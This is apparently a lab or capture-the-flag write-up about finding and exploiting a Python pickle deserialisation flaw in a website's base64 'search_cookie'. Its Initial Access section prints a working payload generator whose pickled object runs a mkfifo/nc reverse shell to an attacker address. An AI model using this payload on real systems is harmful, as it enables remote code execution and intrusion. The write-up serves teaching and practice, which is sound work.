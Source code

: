 <img width="1908" height="488" alt="image 1" src="https://github.com/user-attachments/assets/1c50dc53-ac42-4c53-adbf-fc05b266a229" />

Further enumeration of website revealed a potential vulnerability in it’s search feature request. When I tried to search some random words in that search box and intercepting that search query request via burp suite revealed  that it’s sending some type of `search_cookie`  also with the HTTP POST request.

<img width="1457" height="605" alt="image 2" src="https://github.com/user-attachments/assets/482d350b-599c-4bea-aeba-91f57142a2ca" />

That value looks like encoded in base64, decoded that value and found that it’s the same command which I entered in that search box, but it also contains some unknown patterns or let’s say junk with it, what’s that?

<img width="1447" height="92" alt="image 3" src="https://github.com/user-attachments/assets/44f719dc-1719-43c4-b70c-0db44f63c423" />

Searching about this on google, found an interesting [article by david hamann](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) on python pickle deserialisation vulnerability, where he explained this whole process and why its’ a potential vulnerability. I strongly suggest you to check that out first.

why this is dangerous?

 So, basically `pickle.loads()` in Python will execute arbitrary code during deserialization if the payload contains a specially crafted object. If the server takes your Base64-encoded data and calls `pickle.loads()` directly then it’s **game over**. Like these:

```bash
data = base64.urlsafe_b64decode(request.form['search_cookie'])
deserialized = pickle.loads(data)
```

For confirmation, we can also check it with python on our machine like these:

<img width="1540" height="237" alt="image 4" src="https://github.com/user-attachments/assets/f479c443-3c52-4be6-b1a8-b529ceb3df6e" />

Confirmed.

---

### Initial Access

Prepared a python script to generate our payload:

```bash
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

